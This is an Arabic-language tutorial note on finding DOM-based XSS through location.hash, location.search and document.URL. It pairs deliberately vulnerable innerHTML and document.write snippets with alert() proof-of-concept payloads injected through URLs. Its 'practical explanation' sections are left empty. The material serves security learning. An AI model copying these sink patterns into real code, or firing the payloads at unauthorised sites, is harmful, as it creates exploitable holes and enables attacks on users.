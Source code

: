 
## اول حاجه  انك تعرف المكان اللي بحط فيه ال input بياخذه باي function من الاتي 

### `location.hash`
###### شكلها في الكود : 
  ```javascript
  let userInput = location.hash.substr(1); // يأخذ الجزء بعد # (مثل payload)
  document.getElementById('content').innerHTML = userInput; // نقطة خطرة
  ```
- هنا، إذا كان الرابط `https://site.com#<script>alert(1)</script>`، فإن `userInput` يصبح `<script>alert(1)</script>`، ويتم إدخاله مباشرة في DOM، مما يؤدي إلى تنفيذ السكربت.
###### ازاي بحط ليها البايلود :
ضف الحمولة بعد `#` في الرابط:
    ```
    https://site.com/page#<img src=x onerror=alert(1)>
    ```
  - افتح الرابط في المتصفح وتحقق مما إذا تم تنفيذ الحمولة (مثل ظهور تنبيه).

#### الشرح العملي :

-------
###  `location.search `
###### شكلها في الكود : 
  ```javascript
  let query = location.search.substr(1); // يأخذ الجزء بعد ? (مثل key=payload)
  document.write(query); // نقطة خطرة
  ```
  - إذا كان الرابط `https://site.com?key=<script>alert(1)</script>`، فإن `query` يصبح `key=<script>alert(1)</script>`، وقد يتم كتابته مباشرة في DOM.


###### ازاي بحط ليها البايلود :
أضف الحمولة في معلمات الاستعلام:
    ```
    https://site.com/page?key=<img src=x onerror=alert(1)>
    ```
  - جرب معالجة المعلمات (مثل `key=payload`) وراقب ما إذا تم تنفيذ الحمولة.

#### الشرح العملي :

-------

### `document.URL`
###### شكلها في الكود : 
  ```javascript
  let url = document.URL;
  document.getElementById('output').innerHTML = url; // نقطة خطرة
  ```
  - إذا كان الرابط `https://site.com/page?test=<script>alert(1)</script>`، فإن `url` يحتوي على الحمولة، ويتم إدخالها في DOM.
